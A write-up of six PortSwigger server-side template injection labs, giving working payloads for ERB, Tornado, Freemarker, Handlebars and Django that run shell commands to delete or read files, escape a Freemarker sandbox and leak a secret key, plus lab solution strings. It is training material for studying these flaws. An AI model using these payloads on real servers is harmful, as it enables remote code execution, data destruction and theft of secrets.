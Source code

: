 ## Basic SSTI
[Basic SSTI](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Write-up:

1. When we click the first product, we see the message "Unfortunately this product is out of stock."
If we change the message parameter to `<%= 7*7 %>`, we see that it returns 49 - ERB injection possibility.

2. Changing the message parameter to `<%= system 'ls' %>` shows us the **morale.txt** file.
   
3. We can use `<%= system 'rm morale.txt' %>` to solve the lab.

## Basic SSTI (code context)
[Basic SSTI (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Write-up:

1. After logging in, we see there are two actions in our account - changing e-mail and preferred name.
Analyzing both these requests shows us that changing preferred name has an interesting parameter that changes our name display in post comments. For example, changing preferred name to name uses parameter `blog-post-author-display=user.name`.

2. After studying the Tornado docs, we see that its template expressions are surrounded by curly braces, so we can use these to escape and execute code: <br>
    `blog-post-author-display=user.name}}{{7*7}}` <br>
    This shows us 49, which points to code being executed.

3. Using {% %} to execute arbitrary code, we can craft the following payload: <br>
    `blog-post-author-display=user.name}}{%25%20import%20os%20%25}{{os.system('rm%20/home/carlos/morale.txt')}}` <br>
    URL-encoding the necessary characters (spaces - %20 and % - %25). This solves the lab.

## SSTI using documentation
[SSTI using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Write-up:

1. We are instructed to discover the template engine used. If we click one of the posts, we have
the option to edit a template, we can see that code is being executed to retrieve stock, for example.

2. Using this [tool](https://cheatsheet.hackmanit.de/template-injection-table/), 
we discover that this lab uses a Freemarker template.

3. Using the [documentation](https://freemarker.apache.org/docs/api/index.html), we craft the following payload: <br> `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` <br> This solves the lab.

## SSTI in an unknown language with a documented exploit
[SSTI in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

Write-up:

1. Like in the **Basic SSTI** lab, we can change a message parameter. Using this
[tool](https://cheatsheet.hackmanit.de/template-injection-table/), we discover 
this lab is using a Handlebars template (Javascript).

2. Searching the internet for documented Handlebars SSTI exploits, we find this
[link](https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2).

3. Using the Node.js [docs](https://nodejs.org/api/child_process.html) for child_process,
we can craft the following payload: <br>
    ```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');" }}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
    ```

4. URL-encoding this payload and submitting it as **message** solves the lab.

## SSTI with information disclosure via user-supplied objects
[SSTI with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

Write-up:

1. After logging in, we are able to edit templates, and we discover that a Django 
template with Python 2.7 is being used.

2. Upon researching Django SSTI, we can find this [website](https://www.wallarm.com/what/server-side-template-injection-ssti-vulnerability).
It shows us that we can try to access {{settings}}, and possibly {{settings.SECRET_KEY}}, which are both possible.
This reveals the solution: **xd4klewsdwzux56wdrfdxgaajj8ekyr0**

## SSTI in a sandboxed environment
[SSTI in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

Write-up:

1. We are told the website uses a Freemarker template and that we should break out
of the sandbox and read flag at home/carlos/my_password.txt. After logging in,
we see that we can once again edit the posts' templates.

2. Attempting to use the payload `${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
fails due to the sandboxed environment: <br>
"Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons."

1. After some research, we can find the following [documented exploit](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack). We use it
to craft the following payload: <br>
`${product.class.protectionDomain.classLoader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(product.class.protectionDomain.classLoader.loadClass("freemarker.template.utility.Execute"),null)("cat /home/carlos/my_password.txt")}` <br>
This gets us the solution: **6ahblydrrpsffr1ru83r**
